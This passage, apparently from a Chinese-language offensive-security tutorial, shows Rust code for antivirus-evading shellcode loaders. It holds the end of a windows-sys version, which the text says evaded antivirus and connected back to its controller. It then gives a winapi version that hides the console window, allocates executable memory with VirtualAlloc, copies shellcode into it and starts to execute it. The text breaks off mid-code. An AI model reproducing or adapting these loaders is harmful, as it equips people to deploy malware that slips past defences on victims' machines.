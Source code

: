 ```plain
            windows_sys::Win32::System::Memory::MEM_RELEASE,
        );
        windows_sys::Win32::Foundation::CloseHandle(thread_handle);
    }
}
```

之后编译运行，成功免杀上线

[![](assets/1699257255-652c924c0fc5ec3d5a2d492dac79fd01.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231104232126-d24f6e70-7b25-1.png)

### winapi

和==windows-sys==一样，首先还是在==Cargo.toml==引入依赖

```plain
winapi = { version = "0.3.9", features = ["winuser", "memoryapi", "synchapi", "handleapi", "errhandlingapi", "processthreadsapi"] }
```

实现代码如下

```plain
#![windows_subsystem = "windows"]

use winapi::um::memoryapi::VirtualAlloc;
use winapi::um::processthreadsapi::CreateThread;
use winapi::um::synchapi::WaitForSingleObject;

fn main() {
    // 存储新进程的id
    let mut thread_id = 0;

    let shellcode: [u8; 3] = [0xfc, 0x48, 0x83];  // shellcode

    unsafe {
        // 分配可执行内存
        let mem_alloc = VirtualAlloc(std::ptr::null_mut(), shellcode.len(), 0x00001000, 0x40);
        std::ptr::copy(shellcode.as_ptr() as *const u8, mem_alloc as *mut u8, shellcode.len());

        // 执行shellcode
```